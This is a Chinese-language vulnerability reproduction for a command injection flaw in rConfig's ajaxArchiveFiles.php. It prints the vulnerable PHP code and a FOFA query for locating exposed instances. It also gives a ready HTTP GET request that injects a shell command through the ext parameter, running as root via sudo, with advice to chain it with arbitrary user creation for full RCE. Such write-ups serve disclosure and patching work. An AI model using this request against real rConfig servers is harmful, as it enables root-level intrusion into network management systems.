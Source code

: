 # rConfig ajaxArchiveFiles.php 后台远程命令执行漏洞

## 漏洞描述

rConfig ajaxArchiveFiles.php文件中由于对path参数和ext参数进行命令拼接，导致攻击者可以远程命令执行获取服务器权限

## 漏洞影响

<a-checkbox checked>rConfig</a-checkbox></br>

## FOFA

<a-checkbox checked>app="rConfig"</a-checkbox></br>

## 漏洞复现

存在漏洞的文件

**/home/rconfig/www/lib/ajaxHandlers/ajaxArchiveFiles.php**

```php
<?php
require_once("/home/rconfig/classes/usersession.class.php");
require_once("/home/rconfig/classes/ADLog.class.php");
require_once("/home/rconfig/config/functions.inc.php");
$log = ADLog::getInstance();
if (!$session->logged_in) {
    echo 'Don\'t bother trying to hack me!!!!!<br /> This hack attempt has been logged';
    $log->Warn("Security Issue: Some tried to access this file directly from IP: " . $_SERVER['REMOTE_ADDR'] . " & Username: " . $session->username . " (File: " . $_SERVER['PHP_SELF'] . ")");
    // need to add authentication to this script
    header("Location: " . $config_basedir . "login.php");
} else {
//archive logs files
    $mainPath = $_GET['path'];
    $archiveMainPath = $mainPath . "archive/";
    $ext = "*." . $_GET['ext'];
    $fullpath = $mainPath . $ext;
// create and archive dir if not already created
    if (!is_dir($archiveMainPath)) {
        mkdir("$archiveMainPath");
    }
    $today = date("Ymd");
    $commandString = "sudo -u apache zip -r -j " . $archiveMainPath . "filename" . $today . ".zip " . $mainPath . $ext;
    exec($commandString);
    foreach (glob($fullpath) as $v) {
        unlink($v);
    }

    $fileCount = count(glob($mainPath . $ext));

    if ($fileCount > 0) {
        $response = json_encode(array(
            'failure' => true
        ));
    } else {
        $response = json_encode(array(
            'success' => true
        ));
    }
    echo $response;
}  // end session check
```



关键代码如下



```php
$mainPath = $_GET['path'];
    $archiveMainPath = $mainPath . "archive/";
    $ext = "*." . $_GET['ext'];
    $fullpath = $mainPath . $ext;
// create and archive dir if not already created
    if (!is_dir($archiveMainPath)) {
        mkdir("$archiveMainPath");
    }
    $today = date("Ymd");
    $commandString = "sudo -u apache zip -r -j " . $archiveMainPath . "filename" . $today . ".zip " . $mainPath . $ext;
    exec($commandString);
```

**ext参数** 用户可控

```php
$commandString = "sudo -u apache zip -r -j " . $archiveMainPath . "filename" . $today . ".zip " . $mainPath . $ext;
```



没有使用过滤直接拼接命令，导致命令执行，并因为sudo而root权限执行，由于是后台漏洞所以需要登录，配合任意用户创建可以RCE



请求包为



```plain
GET /lib/ajaxHandlers/ajaxArchiveFiles.php?path=1&ext=;ls%3E../../test.txt HTTP/1.1
Host: 
Cookie: cookname=testtest; cookid=a13be657db5e18e453c66c564467b0f2; PHPSESSID=lr7j5r2beat1eprpklrhiorq71
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Length: 2
```



再请求 [**http://xxx.xxx.xxx.xxx/test.txt**](http://xxx.xxx.xxx.xxx/test.txt) 验证漏洞



![img](../../../.vuepress/public/img/rc-5.png)